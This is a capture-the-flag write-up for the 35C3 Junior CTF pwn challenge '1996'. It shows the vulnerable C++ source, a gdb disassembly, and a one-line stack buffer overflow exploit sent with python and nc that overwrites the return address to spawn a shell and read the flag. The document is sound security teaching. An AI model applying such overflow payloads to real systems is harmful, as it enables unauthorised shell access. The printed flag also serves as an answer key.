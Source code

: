# 35C3 Junior CTF – 1996

* **Category:** Pwn
* **Points:** variable

## Challenge

> It's 1996 all over again!
>
> nc 35.207.132.47 22227

## Solution

The challenge involves a simple *buffer overflow* vulnerability. You will have two files: a binary and a C++ source code. 

```C++
// compile with -no-pie -fno-stack-protector

#include <iostream>
#include <unistd.h>
#include <stdlib.h>

using namespace std;

void spawn_shell() {
    char* args[] = {(char*)"/bin/bash", NULL};
    execve("/bin/bash", args, NULL);
}

int main() {
    char buf[1024];

    cout << "Which environment variable do you want to read? ";
    cin >> buf;

    cout << buf << "=" << getenv(buf) << endl;
}
```

The objective is to change the return address of `getenv` function in order to hijack the flow to `spawn_shell` function.

```
gdb -q ./1996

(gdb) disass spawn_shell
Dump of assembler code for function _Z11spawn_shellv:
   0x0000000000400897 <+0>:	push   %rbp
   0x0000000000400898 <+1>:	mov    %rsp,%rbp
   0x000000000040089b <+4>:	sub    $0x10,%rsp
   0x000000000040089f <+8>:	lea    0x1b3(%rip),%rax        # 0x400a59
   0x00000000004008a6 <+15>:	mov    %rax,-0x10(%rbp)
   0x00000000004008aa <+19>:	movq   $0x0,-0x8(%rbp)
   0x00000000004008b2 <+27>:	lea    -0x10(%rbp),%rax
   0x00000000004008b6 <+31>:	mov    $0x0,%edx
   0x00000000004008bb <+36>:	mov    %rax,%rsi
   0x00000000004008be <+39>:	lea    0x194(%rip),%rdi        # 0x400a59
   0x00000000004008c5 <+46>:	callq  0x4007a0 <execve@plt>
   0x00000000004008ca <+51>:	nop
   0x00000000004008cb <+52>:	leaveq 
   0x00000000004008cc <+53>:	retq   
End of assembler dump.
```

The `spawn_shell` method will be loaded at `0x0000000000400897`.

To exploit the binary, you need to send at least 1024 characters (i.e. the `buf` size). After some analysis, the following exploit can be used to overwrite the return address.

```
(python -c 'print "A"*1048 + "\x97\x08\x40\x00\x00\x00\x00\x00"' ; cat ) | nc 35.207.132.47 22227
```

At this point, you will have a shell.

The `ls` command will reveal a `flag.txt` file.

The `cat flag.txt` command will reveal the flag.

```
35C3_b29a2800780d85cfc346ce5d64f52e59c8d12c14
```